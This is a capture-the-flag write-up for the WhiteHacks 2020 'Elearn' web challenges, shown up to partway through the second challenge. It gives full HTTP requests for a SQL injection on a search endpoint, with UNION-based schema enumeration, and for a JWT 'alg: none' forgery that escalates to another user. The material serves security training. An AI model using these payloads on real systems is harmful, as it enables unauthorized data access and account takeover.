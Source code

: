# Elearn (4 challenges)

### Summary
1. SQLi on API endpoint -> Flag
2. Broken Access Control via Improper Verification of JWT -> Flag
3. Admin Privileges -> PUT Access to API Endpoint -> Flag
4. ???

# Elearn (1/4) - SQLi?
### Description
Recently, WhiteHacks Academy has put in a lot of effort to upgrade its elearn portal to embrace the latest web technologies. One of the end result is a whole new React web application. Everything from the login, to the search filtering are all done under-the-hood without needing a page refresh. This seamless experience has led to the overconfidence of its management to thinking that by upgrading their web stack, they're no longer vulnerable to old school web vulnerabilities such as SQL injection. Prove them wrong.
### Solution
This is SQLi - but not the workshop SQLi. You see, there are many different types of SQL databases out there, each comes with their own syntax.

This is a React App. Hence, we should use Burp even more to enumerate all those pesky endpoints which are hidden away from us. :3

SQLi often occurs in search functionality, we can try performing a search query.

``````
GET /api/modules/search/test123 HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODEyNjMsImlhdCI6MTU5NjM4MDk2MywibmJmIjoxNTk2MzgwOTYzLCJpZGVudGl0eSI6MX0._8CFBnURoNC0x2mXJnGD5RllGn8oPsJ25oc-S4k3lFM
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
We notice that our query is appended to the URL. We can try modifying the request in Burp by appending a '
``````
GET /api/modules/search/test123' HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODEyNjMsImlhdCI6MTU5NjM4MDk2MywibmJmIjoxNTk2MzgwOTYzLCJpZGVudGl0eSI6MX0._8CFBnURoNC0x2mXJnGD5RllGn8oPsJ25oc-S4k3lFM
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
We get our '500 INTERNAL SERVER ERROR' which means that this endpoint is probably SQLi vulnerable!

There is a caveat to this however, you may notice that the standard 'OR 1=1-- will still give a '500 INTERNAL SERVER ERROR'. However, its because there's a caveat to this. The syntax for comments in MySQL databases
``````
-- comment goes here
`````` 
Yep that's right! You need a space and a character after the payload. So you will have to append 'OR 1=1-- a instead! I strongly recommend for the escaping character in SQLi payloads to be '-- a' as it fits all the different types of SQL databases you will encounter!
``````
GET /api/modules/search/e 'OR 1=1-- a HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODIwNjQsImlhdCI6MTU5NjM4MTc2NCwibmJmIjoxNTk2MzgxNzY0LCJpZGVudGl0eSI6MX0.osPzLbz-apKmy2t77ps7hRatSPK4PZTow7eSf4EWbvw
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
The rest is just simple SQLi database enumeration from there as seen from the workshop!
``````
GET /api/modules/search/e 'UNION SELECT NULL,table_name from information_schema.tables-- a 
GET /api/modules/search/e 'UNION SELECT NULL,column_name from information_schema.columns WHERE table_name='flag'-- a 
GET /api/modules/search/e 'UNION SELECT NULL,flag from flag-- a 
``````
Final response:
``````
HTTP/1.1 200 OK
Server: nginx/1.19.1
Date: Sun, 02 Aug 2020 15:31:01 GMT
Content-Type: application/json
Content-Length: 52
Connection: close
Access-Control-Allow-Origin: *
[{"code": null, "name": "WH2020{0Ld_5ch00l_Sql1}"}]
``````
Flag: WH2020{0Ld_5ch00l_Sql1}

# Elearn (2/4) - JWT
JWT is being used alot more in applications lately. Lately, there was a guy who received $100,000 bounty from Apple for a JWT vulnerability (damn!) - https://bhavukjain.com/blog/2020/05/30/zeroday-signin-with-apple/

This challenge involved setting the JWT headers to "alg" : "None", this meant that the signature portion of the JWT will be redundant as there is no signature for the server to check with. If the server does not verify the JWT algorithm, we can spoof the JWT token and escalate our privileges to any user!

We can first retrieve our JWT token
``````
GET /api/modules/search/e 'OR 1=1-- a HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODIwNjQsImlhdCI6MTU5NjM4MTc2NCwibmJmIjoxNTk2MzgxNzY0LCJpZGVudGl0eSI6MX0.osPzLbz-apKmy2t77ps7hRatSPK4PZTow7eSf4EWbvw
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
The JWT token always has 3 segments. The header, payload and signature.

We can first decrypt the JWT at websites like jwt.io

``````
HEADER:
{
  "typ": "JWT",
  "alg": "HS256"
}

PAYLOAD:
{
  "exp": 1596382064,
  "iat": 1596381764,
  "nbf": 1596381764,
  "identity": 1
}
``````
So we have to modify the "alg" parameter to "None" and the "identity" parameter to another number. Luckily, JWTs are base64 encoded so we can manually decode and encode them in BurpSuite, our new JWT token will look like this. 

``````
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJleHAiOjE1OTYzODIwNjQsImlhdCI6MTU5NjM4MTc2NCwibmJmIjoxNTk2MzgxNzY0LCJpZGVudGl0eSI6M30.
``````
We can verify this by heading over to the /identity endpoint
``````
GET /identity HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJleHAiOjE1OTYzODIwNjQsImlhdCI6MTU5NjM4MTc2NCwibmJmIjoxNTk2MzgxNzY0LCJpZGVudGl0eSI6M30.
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````




